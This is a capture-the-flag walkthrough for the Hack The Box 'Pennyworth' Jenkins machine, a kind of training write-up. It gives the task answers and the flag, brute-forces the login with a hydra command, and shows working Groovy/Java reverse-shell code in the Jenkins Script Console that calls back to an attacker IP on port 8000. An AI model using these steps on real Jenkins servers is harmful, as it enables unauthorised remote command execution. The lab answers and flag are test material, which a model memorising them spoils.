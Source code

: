 ### Pennyworth

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 1](/StartingPoint/Tier1/)<br><br>
**Tags:** Common Applications, Jenkins, Java, Reconnaissance, Remote Code Execution, Default Credentials<br>


---

#### Task 1
**What does the acronym CVE stand for?**
> Common Vulnerabilities and Exposures



---

#### Task 2
**What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for?**
> confidentiality, integrity, availability



---

#### Task 3
**What is the version of the service running on port 8080?**
> Jetty 9.4.39.v20210325

![Scanning Port 8080](port8080.png)



---

#### Task 4
**What version of Jenkins is running on the target?**
> 2.289.1

First we use BurpSuite to intercept an HTTP Request when we try to login. First we go to the proxy tab in BurpSuite. We make sure `intercept off` and we go to the target website `http://{Target IP}:8080`. Then in BurpSuite we turn `intercept on` and try to login with the arbitrary credentials `user` and `pass`:

![Intercept](intercept1.png)

Next we go to BurpSuite and see our intercepted packet. We see that the intercepted packet was a HTTP POST Request to `/j_spring_security_check `. We notice that the request has a cookie and four query parameters `j_username`, `j_password`, `form`, and `Submit`. We also notice that the value of `j_username` and `j_password` are the credentials were submitted to the fom.

![Intercepted Packet](intercept2.png)

Next we use the `Forward` button in BurpSuite to send the intercepted packet to the target website. We don't have valid login credentials and see that BurpSuite intercepted a HTTP GET Request with the url endpoint `\loginError`:

![Login Failed](login_failed.png)

Next we download the [common username list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt) and save it as `usernames.txt`. We also download the [common password list](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt) and save it as `passwords.txt`. We use hydra to brute force a username and password credential pair:

```bash
hydra -L {USERNAMES} -P {PASSWORDS} -F {TARGET IP} -s {TARGET PORT} http-post-form "{URL ENDPOINT}:{QUERY PARAMTERS}:C={COOKIE}:F={FAILURE STRING}"
```

For the `{USERNAMES}` and `{PASSWORDS}` flags, we give hydra the path to the common username and password lists we downloaded earlier: `usernames.txt` and `passwords.txt`. We also set target website: `-F {TARGET IP} -s 8080`. Next we specify that we want to make an `http-post-form` to brute force the login credentials. For our post request, we set the `{URL ENDPOINT}` to the one we got from BurpSuite: `/j_spring_security_check`. For the query parameters, we set `{j_username}` and `{j_password}` too `^USER^` and `^PASS^`. We reuse the same values for `{from}` and `{Submit}` as the HTTP Request we intercepted in BurpSuite. We set the `{COOKIE}` value to use the same cookie as the `/login` page. Lastly we set the `{FAILURE STRING}` to `loginError` since that's what the HTTP Response BurpSuite intercepted.

![Hydra Password Cracking](hydra.png)

Hydra finds that the credential pair `root` and `password` are valid. Lastly, logging in with this credential pair, we get the Jenkins administrative panel and see the version of Jenkins that is running.

![Logged In](loggedin.png)



---

#### Task 5
**What type of script is accepted as input on the Jenkins Script Console?**
> Groovy



---

#### Task 6
**What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows?**
> cmd.exe



---

#### Task 7
**What is a different command than "ip a" we could use to display our network interfaces' information on Linux?**
> ifconfig

![ifconfig](ifconfig.png)



---

#### Task 8
**What switch should we use with netcat for it to use UDP transport mode?**
> -u



---

#### Task 9
**What is the term used to describe making a target host initiate a connection back to the attacker host?**
> reverse shell

First we setup a listener on port `8000` our own computer using the `netcat` command:

```bash
nc -lvnp {TARGET IP} 8000
```

Since the Jenkins terminal accepts Java code, we can make a reverse shell in Java and run it on the script console. We click on the `Manage Jenkins` button on the left side panel. Then we scroll down to the tools and actions section and click on `Script Console`.

For our reverse shell, we make a process `p` that our main function can use to make exec calls. We start a bash shell by passing the command `/bin/bash` to our `ProcessBuilder()` function. 

```java
String cmd ="/bin/bash";
Process p = new ProcessBuilder(cmd).start();
```

Then we make a socket that allows us to connect to our own computer:
```java
String host = "10.10.15.124";
int port = 8000;
Socket s = new Socket(host,port);
```

Next we need to redirect the input and output streams. The `po` variable allows the java main function to send commands to the process `p`. The `si` variable allows the java main function to read the commands that we send on our computer via netcat. The `pi` variable allows the java main function to read the output of the process `p`. The `so` variable allows the java main function to send our computer the output:

```java
InputStream pi = p.getInputStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so=s.getOutputStream();
```

Next we need to make a `while` loop allowing our script to run continuously. Then we see if there is user input `si`. If there is user input, we send this user input to our process `po` to be executed. Next we see if there's output from our process `pi`, we send this output to our computer `so`.

```bash
while (!s.isClosed()) {

	try {
		
		if (si.available() > 0) {
		
			po.write(si.read());

		}

		if (pi.available() > 0) {
		
			so.write(pi.read()); 
		
		}

		so.flush();
		po.flush();
		Thread.sleep(50);

	} catch (IOException i) {

		break;

	}

}
```

After we use the `Script Console` to run our reverse shell java code, we can go to our netcat listener and interact with the shell:

![Reverse Shell](reverse_shell.png)



---

#### Flag
> 9cdfb439c7876e703e307864c9167a15

Lastly we search for the flag file and then display its contents:

![Flag](flag.png)

---